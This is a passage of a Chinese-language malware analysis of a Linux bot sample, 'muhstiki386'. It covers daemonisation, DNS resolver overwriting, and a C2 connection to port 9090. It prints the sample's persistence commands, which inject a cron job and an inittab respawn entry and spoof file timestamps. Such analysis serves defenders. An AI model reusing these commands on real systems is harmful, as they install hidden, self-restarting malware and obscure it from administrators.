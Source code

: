 ## 进程环境设置

1. 调用setpriority函数设置进程谦让度为0。
2. 将该进程设置为守护进程。

    ![][5]

3. 在127.0.0.1本地监听一个随机的端口，作为后续的互斥锁。

    ![][6]

4. 执行命令`echo "nameserver 8.8.8.8" > /etc/resolv.conf &`。
5. 随机strcpy以下某个字符串至argv[0]。

    ![][7]

## 自启动设置

1. 查看对目录`/dev/shm/`、`/var/tmp/`、`/tmp/`、`/var/lock/`、`/var/run/`是否有可写入权限。这里我以`/w_ok/`代指一下。
2. 如果存在`/bin/crontab`文件则执行如下命令，说白了就是配合上面的本地监听sock保证样本一直运行。

    ```
    chmod 700 /path/muhstiki386 > /dev/null 2>&1 &
    touch -acmr /bin/ls /path/muhstiki386 #需要root权限
    (crontab -l | grep -v "/path/muhstiki386" | grep -v "no cron" | grep -v "lesshts/run.sh" > /w_ok/.x00%u) > /dev/null 2>&1 #%u为随机的unsigned int
    echo "* * * * * /path/muhstiki386 > /dev/null 2>&1 &" >> /w_ok/.x00%u
    crontab /w_ok/.x00%u
    rm -rf /w_ok/.x00%u
    ```

3. 如果是root权限，则执行如下命令，使样本进程在终止后重新启动进程。

    ```
    cat /etc/inittab | grep -v "/path/muhstiki386" > /etc/inittab2
    echo "0:2345:respawn: /path/muhstiki386" >> /etc/inittab2
    cat /etc/inittab2 > /etc/inittab
    rm -rf /etc/inittab2
    touch -acmr /bin/ls /etc/inittab
    ```

4. 如果存在`/etc/rc.local`或`/etc/rc.conf`文件可读，则向其追加`/path/muhstiki386`，可是这些文件一般是以`exit 0`结束的，开发者理解水平不够呀。

    ![][8]

## 接收指令

1. 样本会随机连接以下的某个ip地址的9090端口，如果连接时间超过9秒则再随机选取ip地址。

    ![][9]


[1]: https://wx4.sinaimg.cn/large/ee2fecafly1fnn1zxu0cij21520kj7al.jpg
[2]: https://wx1.sinaimg.cn/large/ee2fecafly1fnn1zzmb3sj20wm0gt40g.jpg
[3]: https://wx4.sinaimg.cn/large/ee2fecafly1fnn2018lq7j20mq0b1abm.jpg
[4]: https://wx4.sinaimg.cn/large/ee2fecafly1fnn202f4awj20k305emy3.jpg
[5]: https://wx4.sinaimg.cn/large/ee2fecafly1fnn203pvxrj20n10abaa8.jpg
[6]: https://wx2.sinaimg.cn/large/ee2fecafly1fnn207ogztj211u0c078d.jpg
[7]: https://wx2.sinaimg.cn/large/ee2fecafly1fnn208bcjdj20l604zdfu.jpg
[8]: https://wx2.sinaimg.cn/large/ee2fecafly1fnn20a7xqgj20zy0c0dio.jpg
[9]: https://wx2.sinaimg.cn/large/ee2fecafly1fnn20arjzxj20n703nweh.jpg
[10]: https://wx2.sinaimg.cn/large/ee2fecafly1fnn20bmud1j20l908v74e.jpg
[11]: https://wx2.sinaimg.cn/large/ee2fecafly1fnn20c2w06j20lk02p745.jpg
[12]: https://wx3.sinaimg.cn/large/ee2fecafly1fnn20ck8rfj20mu03lgli.jpg
[13]: https://wx4.sinaimg.cn/large/ee2fecafly1fnn20d8y7hj20kg0ac74l.jpg
[14]: https://wx2.sinaimg.cn/large/ee2fecafly1fnn20dtawij20m602q3yf.jpg
[15]: https://wx1.sinaimg.cn/large/ee2fecafly1fnn20eqyafj20qr09p74k.jpg
[16]: https://wx4.sinaimg.cn/large/ee2fecafly1fnn20g0rc5j20nn0l3ab1.jpg
[17]: https://wx1.sinaimg.cn/large/ee2fecafly1fnn20gsewij20oq09tt8w.jpg
[18]: https://wx4.sinaimg.cn/large/ee2fecafly1fnn20hey6cj20pb040mxb.jpg
[19]: https://wx1.sinaimg.cn/large/ee2fecafly1fnn20i1y9vj20lj04h3yg.jpg
[20]: https://wx4.sinaimg.cn/large/ee2fecafly1fnn20it1ftj20k104idfr.jpg
[21]: https://wx2.sinaimg.cn/large/ee2fecafly1fnn20juc4ej20lm09k0tq.jpg
[22]: https://wx4.sinaimg.cn/large/ee2fecafly1fnn20kxjj1j20lt07275a.jpg
[23]: https://wx2.sinaimg.cn/large/ee2fecafly1fnn20m58x7j20mb07k0u3.jpg
[24]: https://wx4.sinaimg.cn/large/ee2fecafly1fnn20nqk8pj20m90d20uy.jpg
[25]: https://wx1.sinaimg.cn/large/ee2fecafly1fnn20ob7xoj20nv07mq31.jpg
[26]: https://wx3.sinaimg.cn/large/ee2fecafly1fnn20pab75j20mu07l3ze.jpg